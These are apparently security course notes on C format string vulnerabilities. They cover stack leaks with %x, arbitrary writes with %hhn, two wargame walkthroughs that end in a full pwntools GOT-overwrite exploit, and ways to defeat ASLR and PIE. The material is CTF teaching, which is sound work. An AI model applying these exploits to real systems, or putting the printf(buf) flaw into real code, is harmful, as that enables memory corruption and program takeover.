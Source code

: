 ## Format String Vulns

### What is a format string? 
A string with placeholders in it. In C, the placeholders look like `%[dns]` Each of them is treated as an argument. 

### When do format string bugs occur?
When the user is able to control the format string

```C
//User controlled format string is put into printf
//They can enter a string which is treated as a format string i.e. User can make buf look like % s %s % s
char buf[100]
fgets(buf, sizeof(buf), stdin)
printf(buf)
```
	
### How do we identify format string vulnerabilities (quickly)?
Pass in a bunch of %x, %d etc. and see if some stack addresses are printed. (Note: stack addresses look like f7…)
**Slower way** : In binary ninja, you can see that we are giving the address of the buffer to printf as a format string. 

### How do format strings work?

In stack view, a call to a `printf` function creates a new stack frame. All its arguments are just below the return address. Since `printf` doesn't know how many 
arguments it has, specifying %x will fetch random arguments from the stack (below printf's return address)

### Leaking information (%s)

**Wargame - door**
Enter `AAAA %x %x` to test for format string vuln
```You say, AAAA 41000001 20414141```

Align this by 1 byte. so entering `zAAAA %x %x` 
```You say, zAAAA 7a000001 41414141```
This is equivalent to `zAAAA%2$x` meaning 1 byte padding and we are accessing the 2nd argument in the printf statement. (i.e. the 2nd %x symbol)

From the binary, we see that user input is being compared to "APES"
```
lea     eax, [ebp-0x9 {var_d}]
push    eax {var_d} {var_218_1}
lea     eax, [ebx-0x15c6]  {data_9f6, "APES"}
push    eax  {data_9f6, "APES"}
call    strncmp
```

Also, a target address has been provided. This is at ebp-0x9 which is convebient since that is the user input variable given to strncmp.
So we need to change this to APES.

`%n` writes the number of bytes it read to target address in memory. Using this, we will write APES.

Steps to craft payload:
1. Write the padding +  target addresses
```python
payload = b' '
payload += p32(target_addr) + p32(target_addr + 1) + p32(target_addr + 2) + p32(target_addr + 3)
```
2. Write the letters. For example: ord('A') = 65 which is the ASCII value of A. The number of bytes written so far is length of existing payload.
We subtract 65 bytes from this to get a total padding equal to 65.
```python
written_so_far = len(payload) - ord('A')
payload += f'%{written_so_far}x%2$hhn'.encode()
```
Similarly for P
```python
written_till_A = ord('P') - ord('A')
payload += f'%{written_till_A}x%3$hhn'.encode()
```
ord('E') is 0x69. We have already written more than 0x69 bytes of characters. So we use 0x100 (256 bytes) + ord('E') (69 bytes) = 325 bytes total.
We use `hh` to to truncate the value and still keep it as 0x69.

```python
written_till_P = 0x100 + ord('E') - ord('P')
payload += f'%{written_till_P}x%4$hhn'.encode()

written_till_E = 0x100 + ord('S') - ord('E')
payload += f'%{written_till_E}x%5$hhn'.encode()
```

**Wargame - formatrix**
Exploit idea - Since no RELRO is enabled we can replace a GOT table function call address with address to the win function. NX is enabled which means we can't place shellcode on the stack but that
doesn't matter in this scenario.

Win address is at 0x0x08048536 (use disass win in gdb). Will overwrite the call to the last printf statement with this address.
```
0x080486d9 <+359>:	call   0x80483b0 <printf@plt>
0x080486de <+364>:	add    esp,0x10
0x080486e1 <+367>:	mov    eax,0x0
0x080486e6 <+372>:	lea    esp,[ebp-0x8]
0x080486e9 <+375>:	pop    ecx
0x080486ea <+376>:	pop    ebx
0x080486eb <+377>:	pop    ebp
0x080486ec <+378>:	lea    esp,[ecx-0x4]
0x080486ef <+381>:	ret
```
```
pwndbg> disass 0x80483b0
        Dump of assembler code for function printf@plt:
           0x080483b0 <+0>:	jmp    DWORD PTR ds:0x8049c18
           0x080483b6 <+6>:	push   0x8
           0x080483bb <+11>:	jmp    0x8048390
        End of assembler dump.
pwndbg> x 0x8049c18
        0x8049c18 <printf@got.plt>:	0x080483b6
```
Note that our taregt address 0x8049c18 is located in the got.plt table.

Entering AAAA %x %x %x %x %x %x (or === AAAA%3$x), we get
`AAAA f7f8e580 804858c 41414141 66376620 38356538 30382030 38353834 3134206` 
This means that no padding is necessary since our buffer is already 4 byte aligned in the 3rd argument of printf.

Final exploit
```python
from pwn import *

PROGNAME = "./formatrix"
REMOTEIP = ""
REMOTEPORT = 24103

if args.REMOTE:
    p = remote(REMOTEIP, REMOTEPORT)
    elf = ELF(PROGNAME)
else:
    p = process(PROGNAME)
    elf = p.elf

def get_n(new, prev, size):
    while new <= prev:
        new += (1 << size)
    return new-prev

#Function that returns payload = <base_addr> + <base_addr + 1> + <base_addr + 2> + <base_addr + 3>
def gen_addrs(base_addr):
    addrs = b''
    for i in range(4):
        addrs += p32(base_addr + i)
    return addrs

#Function to return the format string
#Args - address to write, current payload length, printf stack 
def gen_format_writes(to_write, setup_len, stack_offset):
    payload = b''
    n_val = [setup_len]
    for i in range(4):
        n_val += [get_n(to_write[i], sum(n_val[:i+1]), 8)]
        payload += '%{}c'.format(n_val[i+1]).encode()
        payload += '%{}$hhn'.format(stack_offset + i).encode()
        print("Payload part " + str(i) + " = " + str(payload) )
    return payload

#win_addr is 0x08048536
win_addr = [c for c in p32(0x08048536)] #[54, 133, 4, 8]

#Target address
target_addr = 0x08049c18

payload = gen_addrs(target_addr)
log.info("Target addr = " + str(payload))

payload += gen_format_writes(win_addr, len(payload), 3)
log.info("After generating format writes = " + str(payload))

p.recvuntil('say: ')
p.sendline(payload)
p.interactive()

```

## Format strings automation
```python
fmtstr_payload(offset=12, writes{old_address: new_address})
```

## Types of Addresses Leaked & Offset Calculations
To see all possible outputs of format string, use a loop:

```python
e = ELF('./binary_name')

for i in range(20):
    io = e.process()
    io.sendline(f"AAAA %{i}$x")
    io.recvline()
    print(f"{i} - {io.recvline().strip()}")
    io.close()
```

1. The address containing 41414141 which identifies where the AAAA's are. These are the memory addresses that be can overwrite.
2. Addresses starting with `f7` are libc memory addresses. These can be used to calculate libc.address and defeat ASLR. First, calculate `offset`:
```
Leaked address of libc - Base Address (vmmap) = offset
gdb > p/x addr libc - base
gdb > $1 
```
We can now set `libc.address = Leaked address - offset`  
We can now use gadgets from libc: `libc.address + gadget offset`
3. Addresses starting with `56` are binary addresses which can be useful to calculate PIE offset. 
Use gdb to do this.
```
gdb > p/x Leaked address of binary - Base Address of binary = pie offset
gdb > $1
```
We can now set `elf.address = Leaked address - pie offset`
We can now use gadgets from the binary: `gadget offset  + pie offset`
We can now use functions from the GOT `exit_got = elf.got["exit"]`
Note: always ends in 000